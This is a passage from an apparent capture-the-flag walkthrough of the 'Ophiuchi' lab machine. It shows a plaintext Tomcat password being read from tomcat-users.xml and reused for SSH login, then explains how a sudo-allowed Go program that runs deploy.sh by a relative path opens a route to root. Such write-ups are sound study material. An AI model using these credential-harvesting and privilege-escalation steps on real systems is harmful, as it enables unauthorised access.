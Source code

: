 ## Tomcat credentials

Tomcat often stores credentials in plaintext format in the `tomcat-users.xml` file. This is also the case here and we get ssh access as the admin user on the machine.

```
tomcat@ophiuchi:/$ cat /opt/tomcat/conf/tomcat-users.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!--
...[snip]...
        version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
<!--
...[snip]...
```

```
$ ssh admin@10.129.167.24
The authenticity of host '10.129.167.24 (10.129.167.24)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.167.24' (ECDSA) to the list of known hosts.
admin@10.129.167.24's password:
...[snip]...
Last login: Mon Jan 11 08:23:12 2021 from 10.10.14.2
admin@ophiuchi:~$
```

Logged in as the admin user we are greeted with the user flag in his home directory.

```
admin@ophiuchi:~$ wc -c user.txt 
33 user.txt
```

# Root

## WASM

Checking for sudo right we see that admin is allowed to execute `go run` as root on `/opt/wasm-functions/index.go`.

```
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

The code imports the `main.wasm` web assembly file. Then the exported info function get's assigned to a variable and called. The result of this call is later converted to a string and compared to `"1"`. If it isn't equal the program prints `"Not ready to deploy"`  and exits. If it passes the check `/bin/sh` is called on the file `deploy.sh` which is not referenced by an absolute path. This means if we can both create our own custom `main.wasm` and `deploy.sh` and lead it down another code path, it executes the code we specify in the `deploy.sh` file.
